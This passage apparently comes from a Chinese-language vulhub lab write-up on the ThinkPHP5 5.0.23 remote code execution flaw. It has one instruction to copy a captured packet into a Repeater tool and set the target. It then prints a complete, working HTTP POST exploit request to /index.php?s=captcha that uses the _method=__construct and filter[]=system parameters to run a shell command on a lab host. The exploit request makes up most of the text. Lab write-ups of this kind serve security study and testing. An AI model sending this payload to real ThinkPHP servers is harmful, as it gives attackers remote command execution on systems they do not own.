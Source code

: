 ![设置 HTTP 消息显示的字体大小](./../../../../../images/vulhub/thinkphp/ThinkPHP5%205.0.23%20%E8%BF%9C%E7%A8%8B%E4%BB%A3%E7%A0%81%E6%89%A7%E8%A1%8C%E6%BC%8F%E6%B4%9E/%E8%AE%BE%E7%BD%AE%20HTTP%20%E6%B6%88%E6%81%AF%E6%98%BE%E7%A4%BA%E7%9A%84%E5%AD%97%E4%BD%93%E5%A4%A7%E5%B0%8F.png)

数据包复制到 Repeater 模块中，配置目标

```
POST /index.php?s=captcha HTTP/1.1
Host: centos.local:8080
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Win64; x64; Trident/5.0)
Connection: close
Content-Type: application/x-www-form-urlencoded
Content-Length: 72

_method=__construct&filter[]=system&method=get&server[REQUEST_METHOD]=id
```
